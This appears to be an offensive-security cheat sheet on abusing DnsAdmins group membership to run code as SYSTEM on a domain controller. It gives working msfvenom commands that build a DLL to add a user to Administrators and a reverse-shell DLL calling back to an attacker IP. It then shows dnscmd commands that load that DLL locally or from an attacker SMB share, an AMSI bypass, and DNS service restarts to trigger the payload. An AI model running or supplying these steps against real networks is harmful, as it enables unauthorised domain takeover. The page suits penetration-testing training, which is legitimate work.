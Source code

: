 ```yaml
---
description: DNSAdmin to DC
---
```


# DnsAdmins

DnsAdmins group members have access to DNS information on the network. The DNS service runs as `NT AUTHORITY\SYSTEM`. This can be used to escalate privileges on a DC or other server that is acting as the DNS server for the domain.

{% hint style="info" %}
It is possible to use the built-in [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) utility to specify the path of the plugin DLL. Then load a custom DLL which will be loaded after the DNS service has restarted.
{% endhint %}

### <mark style="color:yellow;">Domain Controllers and DNS</mark>

* In Active Directory environments, Domain Controllers often act as DNS servers.
* DNS servers are critical to Active Directory operation and are accessible to most domain users.
* Microsoft implemented a custom DNS management protocol over **Remote Procedure Call (RPC)** for managing DNS.

{% hint style="info" %}
The combination of the DNS protocol and the custom management protocol introduces a significant attack surface on Domain Controllers.
{% endhint %}

### <mark style="color:yellow;">How to exploit</mark>

Generate a malicious DLL to execute commands

```powershell
# Add user to group
msfvenom -p windows/x64/exec cmd='net group "Administrators" ryan /add' -f dll -o adduser.dll

# Reverse shell
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.153 LPORT=443 -f dll -o reverse.dll
```

Load the custom DLL

```powershell
dnscmd.exe /config /serverlevelplugindll C:\Users\public\reverse.dll
```

From target run

```powershell
# From evil-winrm 
Bypass-4MSI
dnscmd.exe /config /serverlevelplugindll 'C:\users\ryan\reverse.dll'

# Using smb server
impacket-smbserver share -smb2support .
dnscmd localhost /config /serverlevelplugindll \\10.10.14.153\share\reverse.dll
```

Finally stop and start DNS again to trigger the DLL file.

```powershell
sc.exe stop dns
sc.exe start dns
```
